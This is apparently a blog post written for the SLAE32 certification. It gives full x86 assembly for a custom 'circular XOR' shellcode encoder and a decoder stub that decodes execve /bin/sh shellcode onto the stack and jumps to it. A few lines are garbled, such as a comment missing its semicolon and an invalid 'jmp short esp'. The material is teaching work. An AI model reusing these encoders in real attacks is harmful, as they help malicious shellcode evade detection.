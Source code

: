 ```yaml
---
layout: post
title:  SLAE32 Assignment 4 - custom encoder
excerpt: asm code for my encoder
---
```

this assignment has been splitted in 2 (actually 4) exercises:
1. xor.py takes a shellcode, xor it with given starting value, then xor each bytes with previous original one plus something she eventually can xor it with all valid ascii values (0,255) and inc from 1 to 9 to find valid pairing, kept in mind that both plain and encoded shellcode cannot contain null bytes
2. xor.asm does the same, in asm, but doesn't says you have to "null terminate" (read xor.py to understand). also cannot print shellcode in hex but prints it as code: you have to pipe to xxd to get the value
3. unxor.py does the reverse: takes encoded shellcode, inc and first xor and gives back the plain shellcode
4. unxor.asm does the same, in asm, but also executes the shellcode

i did the steps also in python3 to confirm that everything's ok: it's not THAT easy to debug an idea using asm :)

used shellcode is a slightly modified version of execve-stack. i remove .data section and all functions to have a straight code.
you can read it at 04_execve_stack.asm at https://github.com/gulyslae/SLAE32
python code has been committed to github as well

## XOR
    ; name        : circularxor-xor
    ; author      : Sandro "guly" Zaccarini SLAE-1037
    ; purpose     : this code has been written for SLAE32 assignment 4
    ; license     : CC-BY-NC-SA
    ; description : the encoder i choose is a "circular xor". given a starting value used
    ;               for the first byte, every byte xores the one that preceeds.
    ;               to avoid null bytes, because for example //bin/sh has two equals
    ;               consecutive bytes that if xored will lead to 0x00, i choose to
    ;               add 0x1 every "previous byte",
    ;               paying attention to don't have any null case (ex: 0x4142 will lead to
    ;               null bytes, i should've add 0x2).
    ;
    ; having 0x414345 and a starting value of 0x26 as example, we will have:
    ; 0x41^0x26 => 0x67
    ; (0x43+0x1)^0x41 => 0x05
    ; (0x45+0x1)^0x43 => 0x05
    ; my encoded shellcode will then be 0x670505
    ; decoding stub will xor the first byte with a known value to have the first right
    ; value then inc it to xor the second one, to have the right second back, and so on
    ;
    ; every shellcode will terminate with an added byte, that is the real last one add 1
    ; to have a 0x00 when xored.
    ; for example, a shellcode like 0x414345 will be writte in .data as 0x41434546
    ;
    ; please note that i don't need to make this code nullbyte proof because it will be
    ; run just locally ; but i'm doing it 0x00 free as extra-mile
    
      global _start
    
      section .text
    
      exit:
    xor eax,eax
    mov al,0x1
    int 0x80
    
      _start:
    
    ; place in bl our xor starting value
    mov bl,0xa1
    jmp short call_decoder
    
      decoder:
    pop esi
    ; al will hold current right value
    mov al, byte [esi]
    ; i need to copy it also to bh to have it ready for next xor
    mov bh,al
    ; first al is hardcoded of course, now al will
    xor al, bl ; first one is hardcoded
    
    ; make room for the shellcode, current is like 0x1f so more than enough to sub 0x3f
    sub esp,0x3f
    ; move first byte to esp
    mov [esp+ecx],al
    
      decode:
    ; copy current right to bl
    mov bl,bh
    ; add 1 to bl because during xor i did this
    inc bl
    ; go to next byte
    inc esi
    ; and add 1 to ecx to write to right position in the stack
    inc ecx
    ; al will hold current right value
    mov al, byte [esi]
    ; i need to copy it also to bh to have it ready for next xor
    mov bh,al
    ; xor current with previous+1
    xor al, bl
    ; copy the right value on the right position in the stack
    mov [esp+ecx],al
    
    ; because i placed two consecutive values here (actually prev+0x1), al will be 0x00
    ; and because nobody touched edx, dl is 0x00 too
    cmp al,dl
    ;call trap
    je write_shellcode
    jmp short decode
    
      call_decoder:
    call decoder
    plainShellcode: db 0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x50,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0x31,0xc0,0xb0,0x01,0xcd,0x80
    mlen equ $-plainShellcode
    
      write_shellcode:
    nop
    nop
    xor eax,eax
    xor ebx,ebx
    xor edx,edx
    
    mov ecx,esp
    ; write id
    mov al, 0x4
    ; write to sdout
    mov bl, 0x1
    ; shellcode len, hardcoded
    ;mov dl, 0x20
    mov dl,mlen
    ; do it
    int 0x80
    ; put in ecx 4 bytes of my shellcode
    
    call exit


## UNXOR
    ; name        : circularxor-xor
    ; author      : Sandro "guly" Zaccarini SLAE-1037
    ; purpose     : this code has been written for SLAE32 assignment 4
    ; license     : CC-BY-NC-SA
    ; description : the encoder i choose is a "circular xor". given a starting value used
    ;               for the first byte, every byte xores the one that preceeds.
    ;               to avoid null bytes, because for example //bin/sh has two equals
    ;               consecutive bytes that if xored will lead to 0x00, i choose to
    ;               add 0x1 every "previous byte",paying attention to don't have any null
    ;               case (ex: 0x4142 will lead to null bytes).
    ;
    ; having 0x414345 and a starting value of 0x26 as example, we will have:
    ; 0x41^0x26 => 0x67
    ; (0x43+0x1)^0x41 => 0x05
    ; (0x45+0x1)^0x43 => 0x05
    ; my encoded shellcode will then be 0x670505
    ; decoding stub will xor the first byte with a known value to have the first right
    ; value, then inc it to xor the second one, to have the right second back, and so on
    ;
    ; every shellcode will terminate with an added byte, that is the real last one add 1
    ; to have a 0x00 when xored.
    ; for example, a shellcode like 0x414345 will be writte in .data as
    0x41434546
    ;
    ; please note that i don't need to make this code nullbyte proof because it will be
    ; runt just locally ; but i'm doing it 0x00 free as extra-mile
    
      global _start
    
      section .text
      _start:
    
    ; place in bl our xor starting value
    mov bl,0xa1
    jmp short call_decoder
    
      decoder:
    pop esi
    ; al will hold current right value
    mov al, byte [esi]
    ; xor it
    xor al, bl
    
    ; make room for the shellcode, current is like 0x1f so more than enough to sub 0x3f
    sub esp,0x3f
    ; move first byte to esp
    mov [esp+ecx],al
    
      decode:
    ; copy current right to bl
    mov bl,al
    ; add 1 to bl because during xor i did this
    inc bl
    ; go to next byte
    inc esi
    ; and add 1 to ecx to write to right position in the stack
    inc ecx
    ; al will hold current right value
    mov al, byte [esi]
    ; xor current with previous+1
    xor al, bl
    ; copy the right value on the right position in the stack
    mov [esp+ecx],al
    
    ; i know dl is 0x00 because nobody used it, as soon as al is 0x00 too
    jmp to our shellcode
    
    cmp al,dl
    je call_shellcode
    jmp short decode
    
      call_decoder:
    call decoder
    Shellcode: db 0x90,0xf2,0x91,0x39,0x46,0x1f,0x43,0x1c,0x01,0x46,0x52,0x0a,0x04,0xe6,0x69,0xb4,0xd8,0x68,0xb0,0xdd,0x6b,0x52,0xba,0xc1,0x4e,0xb0,0xf2,0x71,0xb0,0xcf,0x4e,0x81
    
      call_shellcode:
    jmp short esp


*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*
